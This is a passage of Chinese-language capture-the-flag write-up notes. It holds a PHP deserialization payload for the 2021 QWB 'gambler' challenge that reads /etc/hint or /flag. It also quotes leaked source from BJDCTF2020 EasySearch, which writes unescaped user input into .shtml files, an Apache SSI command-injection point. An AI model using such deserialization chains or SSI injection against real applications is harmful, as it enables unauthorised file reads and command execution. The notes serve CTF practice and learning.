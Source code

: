 - 利用文件包含漏洞，使用_invoke()读取flag.php的内容。

2021强网杯赌徒的payload:
```php
class Start
{
   public $name;
}

class Room
{
    public $filename='/etc/hint';  //换为 /flag可以直接读
}

class Info
{
    public function __construct(){
        $this->file['filename']=new Room();
}

$a = new Start();
$a->name = new Info();
$a->name->file['filename']->a=new Room();

echo urlencode(serialize($a));
```

---
# [BJDCTF2020]EasySearch
- shtml 漏洞
- Apache SSI 远程命令执行漏洞

扫路径：

index.php.swp

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
```